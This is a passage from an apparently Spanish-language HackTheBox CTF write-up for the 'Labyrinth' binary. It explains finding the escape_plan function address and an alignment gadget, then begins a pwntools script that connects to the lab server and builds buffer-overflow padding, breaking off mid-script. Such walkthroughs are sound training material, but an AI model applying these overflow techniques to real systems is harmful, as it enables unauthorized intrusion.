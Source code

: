 Ahora tenemos la dirección de memoria donce comienza la función escape_plan.

Necesitamos el "gadget" para alinear el stack para que no se quede desplazado.

Buscamos la dirección del final de la función cls(), justo antes de la función escape_plan.

![alt text](/assets/img/writeups/hackthebox/labyrinth-htb/image-5.png)

Ahora necesitamos crear el script con el flujo que necesitamos para explotar el binario.

## Script

Como el binario se ejecuta en un servidor necesitamos realizar una conexión mediante sockets para poder ejecutar el script.

```python
from pwn import *

# Conectar al servidor
conn = remote('94.237.55.96', 37701)

# Primer input
conn.recvuntil(b">> ")
conn.sendline(b"69")

# Segundo input con exploit
conn.recvuntil(b">> ")
padding = b"A" * 48
fake_rbp = b"\x00" * 8
```
